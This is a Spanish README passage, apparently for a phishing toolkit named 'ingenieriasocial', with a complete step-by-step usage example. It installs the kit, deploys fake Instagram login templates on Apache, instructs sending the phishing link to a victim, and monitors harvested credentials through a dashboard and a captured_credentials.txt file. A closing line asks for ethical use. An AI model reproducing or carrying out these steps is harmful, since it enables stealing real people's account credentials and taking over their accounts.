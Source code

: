 
## 🎯 Ejemplo Completo de Uso

```bash
# 1. Instalar
cd /opt
sudo git clone https://github.com/CoderFullPro/ingieriasocial.git
cd ingieriasocial
sudo chmod +x ingenieriasocial

# 2. Copiar templates a Apache
sudo cp -r src/templates/phishing/* /var/www/html/
sudo systemctl restart apache2

# 3. Obtener IP
ip addr show | grep "inet " | grep -v 127.0.0.1

# 4. Iniciar Dashboard
./start_dashboard_simple.sh

# 5. Compartir link de phishing
# Envía a la víctima: http://TU-IP/instagram/

# 6. Ver capturas en tiempo real
# Dashboard: http://TU-IP:8000/dashboard_simple.html
# o
tail -f /var/www/html/instagram/captured_credentials.txt
```

---

## ✅ Checklist de Instalación

- [ ] Kali Linux actualizado
- [ ] Python 3.8+ instalado
- [ ] Dependencias instaladas
- [ ] Repositorio clonado
- [ ] Permisos configurados
- [ ] Apache instalado y corriendo
- [ ] Templates copiados a /var/www/html/
- [ ] Dashboard funcionando
- [ ] Firewall configurado
- [ ] IP local obtenida
- [ ] Prueba exitosa desde otro dispositivo

---

**© 2025 ingenieriasocial - MidasOrion**

*Recuerda: Usa esta herramienta de forma ética y responsable.*
